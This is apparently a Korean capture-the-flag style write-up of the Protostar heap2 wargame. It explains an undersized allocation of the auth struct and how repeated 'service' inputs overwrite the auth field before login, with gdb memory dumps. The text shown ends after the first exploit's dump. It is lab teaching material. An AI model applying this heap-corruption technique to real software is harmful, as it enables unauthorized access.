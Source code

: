 #### Code Error ?

`auth AAAA` 이후에 `serviceBBBB` 입력을 하였는데, `auth` 시에 16bytes, `service` 시에 16 bytes 할당됨. `sizeof(auth)` 만큼 `alloc` 받았으면 `32+4 = 36` bytes 할당 받는 것이 받을 것 같은데 이상하게도 `8` bytes 가 할당됨.

```
pwndbg> r
Starting program: /wargame/protostar/heap/heap2/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c818, service = (nil) ]
serviceBBBB
[ auth = 0x804c818, service = 0x804c828 ]

pwndbg> x/50x 0x804c800
0x804c800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c810:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c820:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c830:      0x00000000      0x000007d1      0x00000000      0x00000000
0x804c840:      0x00000000      0x00000000      0x00000000      0x00000000
```

liveoverflow 동영상에서도 여러 변수들이 `auth` 동일 이름을 사용하고 있어서 좀 문제가 있다고 설명하고 있네요...

#### How to exploit

실제 사이즈보다 alloced 된 영역은 작지만 `auth->auth` 해석 시에는 structure 의 크기에 맞추어서 해석이 되어 `auth->auth` 값 (`0x804c818` + `32` = `0x804c838`)은 `0` 이다.

```
gef)  x/50x 0x804c800
0x804c800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c810:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c820:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c830:      0x00000000      0x000007d1      0x00000000      0x00000000
0x804c840:      0x00000000      0x00000000      0x00000000      0x00000000

gef)  print auth
$1 = (struct auth *) 0x804c818
gef)  print *auth
$2 = {
  name = 0x804c818,
  auth = 0x0
}
```

## Exploit

#### Exploit1 : `service` 를 통해서 여러번 alloc

`auth` 입력 이후에 `service` 를 여러번 수행해서 `0x804c838` 에 값을 쓴다음에 `login` 수행.

```
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c818, service = (nil) ]
serviceBBBB
[ auth = 0x804c818, service = 0x804c828 ]
serviceCCCC
[ auth = 0x804c818, service = 0x804c838 ]

gef)  x/50 0x804c800
0x804c800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c810:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c820:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c830:      0x00000000      0x00000011      0x43434343      0x0000000a
0x804c840:      0x00000000      0x000007c1      0x00000000      0x00000000
```